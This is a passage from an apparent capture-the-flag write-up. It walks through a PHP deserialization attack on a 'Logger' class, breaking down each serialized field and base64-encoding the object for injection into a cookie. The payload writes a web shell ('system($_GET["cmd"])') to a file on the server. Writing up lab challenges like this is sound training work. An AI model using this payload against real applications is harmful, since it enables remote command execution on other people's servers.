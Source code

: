- `s:15:"\0Logger\0logFile";` - the first data name is a 15 character string
  that is for the private member variable (signified by the nulls `\0`) and is
  the class `Logger` variable `logFile`
- `s:19:"img/ehi_exploit.php";` - the first data value is a 19 character string
  with the value `img/ehi_exploit.php`
- `s:15:"\0Logger\0initMsg";` - the second data name is a 15 character string
  that is for the private member variable (signified by the nulls `\0`) and is
  the class `Logger` variable `initMsg`
- `s:0:"";` - the second data value is an empty (zero length) string
- `s:15:"\0Logger\0exitMsg";` - the third data name is a 15 character string
  that is for the private member variable (signified by the nulls `\0`) and is
  the class `Logger` variable `exitMsg`
- `s:30:"<?php system($_GET["cmd"]); ?>";` - the third data value is a 30
  character string with the value `<?php system($_GET["cmd"]); ?>`

That's a lot to understand! However, once the format is understood it is fairly
easy to manipulate the serialized data to be whatever is needed for the
solution.

That's the serialized payload that needs to be injected into the cookie. First
it needs to be encoded using `base64`:

```
echo -e 'O:6:"Logger":3:{s:15:"\0Logger\0logFile";s:19:"img/ehi_exploit.php";s:15:"\0Logger\0initMsg";s:0:"";s:15:"\0Logger\0exitMsg";s:30:"<?php system($_GET["cmd"]); ?>";}' | base64
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxOToiaW1nL2VoaV9leHBs
b2l0LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjA6IiI7czoxNToiAExvZ2dlcgBleGl0
TXNnIjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4iO30K
```

In the browser, create the cookie by drawing any line, such as `(0, 0)` to
`(100, 100)`:

![Cookie named drawing](images/level_26/01_drawing_cookie.png)
